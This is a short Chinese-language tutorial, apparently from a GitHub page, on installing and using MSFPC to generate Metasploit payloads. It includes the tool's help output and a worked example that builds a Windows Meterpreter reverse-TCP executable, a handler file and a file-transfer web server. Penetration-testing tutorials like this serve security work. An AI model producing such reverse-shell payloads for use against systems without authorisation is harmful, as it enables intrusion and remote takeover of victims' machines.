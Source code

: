 

> 一般来说，生成payload的默认工具是MSFvenom，这是一个独立于Metasploit的payload生成器及编码器。虽然它是一个非常强大的payload生成神器，但是对于一些新手来说，可能难以在短时间内熟悉其操作。即使在进行最初的了解之后，生成一个基本的payload也需要输入相当多的内容，而今天，我们将看到使用MSFPC更便捷地生成paylaod。

> MSFPC，或者说是MSFvenom Payload生成器，其实是一个基于MSFvenom的Payload生成器，但是它旨在简化基本的有效载荷创建过程，用户使用MSFPC可以尽可能简单地创建Payload，有时甚至只需要一个参数！如果你以前使用过MSFvenom，那么可能已经自行编写了一个简单的shell脚本来自动化频繁地生成Payload。即使这样，这个工具也绝对值得一试。


### 安装:
```
apt-get install msfpc
```

### 帮助:
```bash
root@kali:~/proxychains-ng# msfpc -h
 [*] MSFvenom Payload Creator (MSFPC v1.4.4)

/usr/bin/msfpc <TYPE> (<DOMAIN/IP>) (<PORT>) (<CMD/MSF>) (<BIND/REVERSE>) (<STAGED/STAGELESS>) (<TCP/HTTP/HTTPS/FIND_PORT>) (<BATCH/LOOP>) (<VERBOSE>)
Example: /usr/bin/msfpc windows 192.168.1.10        # Windows & manual IP.
        /usr/bin/msfpc elf bind eth0 4444          # Linux, eth0's IP & manual port.
        /usr/bin/msfpc stageless cmd py https      # Python, stageless command prompt.
        /usr/bin/msfpc verbose loop eth1           # A payload for every type, using eth1's IP.
        /usr/bin/msfpc msf batch wan               # All possible Meterpreter payloads, using WAN IP.
        /usr/bin/msfpc help verbose                # Help screen, with even more information.

 <TYPE>:
   + APK
   + ASP
   + ASPX
   + Bash [.sh]
   + Java [.jsp]
   + Linux [.elf]
   + OSX [.macho]
   + Perl [.pl]
   + PHP
   + Powershell [.ps1]
   + Python [.py]
   + Tomcat [.war]
   + Windows [.exe // .dll]
......

```
### 使用:

```bash
root@kali:~/proxychains-ng# msfpc windows 192.168.48.144
 [*] MSFvenom Payload Creator (MSFPC v1.4.4)
 [i]   IP: 192.168.48.144
 [i] PORT: 443
 [i] TYPE: windows (windows/meterpreter/reverse_tcp)
 [i]  CMD: msfvenom -p windows/meterpreter/reverse_tcp -f exe \
  --platform windows -a x86 -e generic/none LHOST=192.168.48.144 LPORT=443 \
  > '/root/proxychains-ng/windows-meterpreter-staged-reverse-tcp-443.exe'

 [i] windows meterpreter created: '/root/proxychains-ng/windows-meterpreter-staged-reverse-tcp-443.exe'

 [i] MSF handler file: '/root/proxychains-ng/windows-meterpreter-staged-reverse-tcp-443-exe.rc'
 [i] Run: msfconsole -q -r '/root/proxychains-ng/windows-meterpreter-staged-reverse-tcp-443-exe.rc'
 [?] Quick web server (for file transfer)?: python2 -m SimpleHTTPServer 8080
 [*] Done!
```

- [如何使用MSFPC简化生成Payload的过程](http://www.freebuf.com/sectool/153801.html)